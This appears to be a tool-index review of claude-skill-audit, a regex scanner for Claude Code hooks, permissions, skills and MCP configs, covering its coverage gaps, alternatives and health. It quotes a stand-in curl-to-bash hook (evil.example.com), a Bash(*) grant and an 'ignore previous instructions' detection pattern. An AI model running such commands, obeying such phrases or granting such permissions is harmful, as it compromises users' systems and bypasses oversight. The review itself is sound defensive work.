


# claude-skill-audit

Your `~/.claude` directory runs things you never read: a hook that pipes `curl` into a shell on every prompt, an allow-list entry `Bash(*)`, an MCP server started with an unpinned `npx -y`. claude-skill-audit is a small pattern-matching scanner that reads those files in one pass and lists every line that matches its known-bad patterns — a one-author project with zero stars, so treat its output as a quick lint, never as a clean bill of health.

## When to use

You run Claude Code with a pile of things other people wrote — a few skills copied from GitHub, an agent definition from a blog post, an `.mcp.json` a teammate committed — and you have never opened most of them. Somewhere in `settings.json` there may be a line like `"command": "curl http://evil.example.com/x.sh | bash"` under `UserPromptSubmit`, and you would not know. You want a first pass in under a minute that tells you which files to open, without installing a Python toolchain, handing the files to an LLM, or letting the scanner touch the network.

That is the gap this fills against its neighbours. [SkillSpector](skillspector.md) answers "is this one skill safe to install" with a much deeper engine (AST, YARA, dependency lookups, optional LLM review), but it needs Python 3.12+ and it looks at a skill target, not at your hooks and permission allow-list. claude-skill-audit goes the other way: shallow regular expressions, but across the whole config directory at once — `SKILL.md` files, agent definitions, `settings.json` hooks and permissions, `.mcp.json`, `CLAUDE.md` — with zero runtime dependencies and about 49 KB of TypeScript you can read in full before trusting it. Pick it when "small enough to audit myself, offline" matters more than detection depth, and when you accept that nobody but its author is known to have used it.

## How it works

It is a linter for a config directory: it only reads text and compares it against a fixed list of patterns, and it never runs, installs or uploads anything it finds. You clone the repo, build it, and point the CLI at a directory. A loader then collects the files it knows about — every `SKILL.md`, the Markdown files directly under an `agents/` folder, `settings.json` and `settings.local.json`, `.mcp.json` and `.claude.json`, `CLAUDE.md` and `rules/*.md` — and also notes the *path* of any archive or installer file (`.zip`, `.exe`, `.dmg`…) without opening it. Six of the seven rule modules are lists of regular expressions (text patterns such as "`curl` … piped into `sh`") or JSON key lookups, run over those files one at a time; the seventh, the "escalation chain", looks for a combination across files — approval prompts switched off, plus a skill that grants `Bash`/`Write`, plus an MCP server reaching the network — and reports it as one finding. What stays yours: deciding whether each hit is real (there is no suppression file), reading the scripts that hooks and skills point at (the tool does not open them), and wiring the exit code into CI yourself with `--fail-on` and `--json`.

<!-- flow-steps:begin (generated from flows/claude-skill-audit.json by tools/flow_card.py — do not edit) -->

Text version of the flow

1. **You**: Clone the repo and build it from source (there is no npm package yet) — `npm install · npm run build`
2. **You**: Point the CLI at your Claude Code config directory — `node dist/cli.js ~/.claude`
3. **claude-skill-audit**: Collects skills, agents, settings, MCP configs, rule files and archive paths — component: `file loader`
4. **claude-skill-audit**: Matches each file against six pattern modules, then checks one cross-file chain — component: `rule modules`
5. **claude-skill-audit**: Prints findings by severity with file:line and a fix; exits nonzero at high or above

**Value**: One offline pass shows which config files to open first, instead of grepping each by hand

<!-- flow-steps:end -->

## When NOT to use

- **You need a gate you can rely on for real Claude Code permission settings.** The prompt-bypass checks read `defaultMode` and `skipAutoPermissionPrompt` at the top level of `settings.json` (`src/rules/permission-rules.ts`, `escalation-rules.ts`), while the Claude Code settings reference fetched on 2026-10-08 documents the key as `permissions.defaultMode` and does not contain `skipAutoPermissionPrompt` at all. On a config written the documented way, the `perm/default-mode` finding and the headline escalation chain will therefore not fire [推断: derived from comparing the source with the docs; not run against a real config]. Check `permissions.defaultMode` by hand, or use AgentShield (`affaan-m/agentshield`, the scanner bundled in [ECC](../agent-dev-methodology/coding-agent-harnesses/ecc.md)), which has real users to report this kind of miss.
- **The risk lives in code, not in prose.** Only the files listed above are read. A hook whose `command` is `~/.claude/hooks/sync.sh` is judged by that one string — the script is never opened — and a skill's `scripts/*.py`, slash-command files under `commands/`, and plugin manifests are not loaded at all. Use [SkillSpector](skillspector.md), which analyses scripts and dependencies, when the skill ships code.
- **The injection is not a stock English phrase.** Detection is literal regexes such as `ignore (all) previous instructions`; a Chinese or paraphrased instruction passes untouched (tested against the published regex on 2026-10-08). Use [SkillSpector](skillspector.md) with its LLM semantic pass when wording can vary.
- **You want real secret scanning.** There are five patterns. Tested against the published regexes, a classic `sk-` + 16 alphanumerics key matches, but the `sk-ant-…`, `sk-proj-…` and `github_pat_…` shapes do not — including the key format of the vendor whose tool this audits. Use Gitleaks (`gitleaks/gitleaks`) for secrets and keep this for the config-specific checks.
- **You are rolling it out as a team CI gate.** There is no baseline, ignore file or inline suppression, no SARIF (roadmap only), no npm package and no release tag to pin. Every hook containing `curl` is a `high` finding and the default `--fail-on` is `high`, so a legitimate webhook hook turns the job red with no way to accept it. Use [SkillSpector](skillspector.md) for baselines and SARIF output.
- **You need enforcement while the agent is running.** This is a read-only static scan; it blocks nothing. Use [agent-governance-toolkit](agent-governance-toolkit.md) for policy-gated tool calls and audit trails.
- **You need something that will still be maintained next year.** Zero stars, one author, five commits on two days, silent since 2026-08-06. Use [SkillSpector](skillspector.md) (NVIDIA-owned) or AgentShield if continuity matters; use this only as code you are willing to own.
- **Your agent is not Claude Code.** File discovery is hard-wired to the `.claude/` layout and Claude Code's `settings.json` / `.mcp.json` shapes; other harnesses' configs are simply not found.

Two more scanners in this space, `snyk/agent-scan` and `HTS-Sleeping-Place/skills-scanner`, are being added to this index in the same batch as this page; look for them in this category's index before settling on a choice.

## Comparison

| Alternative | In index | Our verdict | Tradeoff |
|---|---|---|---|
| [SkillSpector](skillspector.md) | ✅ | When the question is "is this third-party skill safe to install", pick SkillSpector; pick claude-skill-audit only for a quick offline look across your own hooks, permissions and MCP config, which SkillSpector's skill-target scan does not cover. | SkillSpector buys AST/YARA/dependency analysis, baselines, SARIF and an NVIDIA-owned repo, at the cost of a Python 3.12+ install and optional data egress to OSV and an LLM provider; this tool is offline and tiny but shallow and unproven. |
| AgentShield (`affaan-m/agentshield`) | not indexed | For the same whole-config surface (hooks, MCP, permissions, secrets) with an installable package and an existing user base, prefer AgentShield; choose claude-skill-audit only if you specifically want a zero-dependency codebase small enough to read end to end. | AgentShield has about 1.3k stars and an npm release channel (as of 2026-10) but a larger surface to trust; this tool has no users and no package, but nothing to audit beyond 14 source files. Not added in this tab batch. |
| Cisco skill-scanner (`cisco-ai-defense/skill-scanner`) | not indexed | When you want a vendor-maintained scanner for agent skills specifically, look at Cisco's first; claude-skill-audit is the choice only when settings, hooks and MCP config are in scope too and a pattern-level pass is enough. | Cisco's repo is active (pushed 2026-10-05, about 2.6k stars) but its license reads `NOASSERTION` on GitHub and this page did not read its rules; this tool is MIT and fully read here, but dormant. Not added in this tab batch. |
| Gitleaks (`gitleaks/gitleaks`) | not indexed | For credentials in config files, run Gitleaks — its rule set is far wider than the five patterns here; keep claude-skill-audit for what Gitleaks does not know about, such as hook commands and `Bash(*)` grants. | Gitleaks is a mature, widely used secret scanner (about 29.8k stars as of 2026-10) with no notion of agent config; this tool understands the `.claude/` layout but misses common key formats. Not added in this tab batch. |
| [agent-governance-toolkit](agent-governance-toolkit.md) | ✅ | When the requirement is to stop a dangerous tool call as it happens, pick agent-governance-toolkit; claude-skill-audit only tells you, before the fact, that the config looks risky. | The toolkit is a broad runtime stack you have to integrate and operate; this is a one-shot read-only scan with nothing to deploy and nothing it can prevent. |

## Tech stack

- **TypeScript (ES modules) compiled with `tsc`** to `dist/`; the CLI entry is `dist/cli.js`, argument parsing uses Node's built-in `node:util` `parseArgs`.
- **Seven rule modules** in `src/rules/` (`injection`, `hook`, `permission`, `mcp`, `secret`, `escalation`, `supply-chain`), each a pure function from loaded artifacts to findings; every check is a regular expression or a JSON key lookup. The README still says six — the `supply-chain` module arrived in the second-to-last commit.
- **Output:** a colourised text report grouped by severity, or `--json`; secret values are replaced with `[REDACTED]` in both, with a second scrub in the renderer.
- **Tests:** Node's built-in test runner over four fixture directories (`clean`, `malicious`, `security-doc`, `nested-claude`); GitHub Actions runs typecheck, build and tests on Node 22.

## Dependencies

- **Runtime:** Node.js 22 or newer (`engines` in `package.json`). `dependencies` is empty; the only imports in the 14 source files are `node:fs`, `node:path`, `node:util` and `node:url`.
- **Build-time:** `typescript` ^5.6 and `@types/node` ^22, plus `git` to clone — there is no published package, so a build from source is the only install path.
- **No network, no LLM, no API key.** Nothing in the source opens a socket; files are read from disk and archives are recorded by path without being opened.

## Ops difficulty

**Low to run, but you own it.** One scan is `npm install`, `npm run build`, `node dist/cli.js <dir>`, with no service, state or credentials. The cost is elsewhere: with no release channel you pin a commit SHA and re-read the diff yourself when you update, and with no suppression mechanism every accepted finding has to be handled outside the tool (a wrapper script over `--json`, or a lower `--fail-on` bar).

## Health & viability

- **Maintenance (2026-10-08):** created 2026-07-18; five commits in total, made on two days (2026-07-18 and 2026-08-06), and nothing in the 63 days since. No tag, no GitHub release; `package.json` says `0.1.0`. The last four CI runs passed. Read this as a finished weekend-scale build that is currently coasting, not as an actively maintained scanner.
- **Governance / bus factor:** one contributor on a personal account, no `CONTRIBUTING`, `SECURITY.md` or issue history. If the author stops, the project stops; the mitigating fact is that the whole thing is small enough to fork and carry.
- **Adoption — zero, stated plainly:** 0 stars, 0 forks, 0 watchers, 0 issues or pull requests ever opened, and the npm name `claude-skill-audit` returns 404 (all as of 2026-10-08). That means no outside user is known to have run it, nobody has reported a false negative, and its detection quality has had no review beyond the author's own fixtures. For a security tool this matters more than for most: a miss is silent.
- **Age / Lindy:** 82 days old. There is no longevity prior to lean on, in either direction.
- **Risk flags:** MIT (root `LICENSE` read), no relicense history, no open-core layer. Zero runtime dependencies keeps its own supply-chain surface minimal. The README's comparison against other scanners and its "no other scanner" claim are marketing this page could not corroborate; the README's module count is already out of step with the source.

## Caveats (unverified)

- [未验证] This pass read all 14 files under `src/`, the README, `package.json`, the lockfile, `LICENSE`, the CI workflow and two fixture `settings.json` files through the GitHub API; it did not clone, build or run the tool, so the README's sample output (25 findings on the malicious fixture) is the author's report, not reproduced here.
- [推断] The claim that the prompt-bypass checks and the escalation chain do not fire on a real config rests on comparing the source (top-level `defaultMode` / `skipAutoPermissionPrompt`) with the Claude Code settings docs fetched on 2026-10-08 (`permissions.defaultMode`; no `skipAutoPermissionPrompt`). It was not tested on a live Claude Code install, and older or undocumented key spellings may exist.
- [未验证] The README names Bumblebee, MCP-Scan, SkillGuard and AgentLinter as narrower competitors without linking them; this page did not identify the repositories meant or check the claim that none of them covers the full surface.
- [未验证] The supply-chain rules cite two trojan skill repositories "observed live 2026-08-06" in a source comment; the repositories are not named and the observation could not be checked.
- [未验证] The three incident write-ups the README cites (Check Point / CVE-2025-59536, Cato Networks, The Hacker News) were not opened or verified for this page.
- [未验证] Verdicts on AgentShield, Cisco skill-scanner and Gitleaks rest on their GitHub metadata and, for AgentShield, on this index's ECC page; none of the three was read at source level here.
- [推断] The two commit author names (`tarangj2004-dotcom` and `Tarang Jammalamadaka`) are treated as one person because GitHub attributes all five commits to the single contributor `tarang-tj`.
- [未验证] False-positive behaviour on a large real-world `~/.claude` was not measured; the "every `curl` hook is high" statement is read from `src/rules/hook-rules.ts`, not observed in a run.
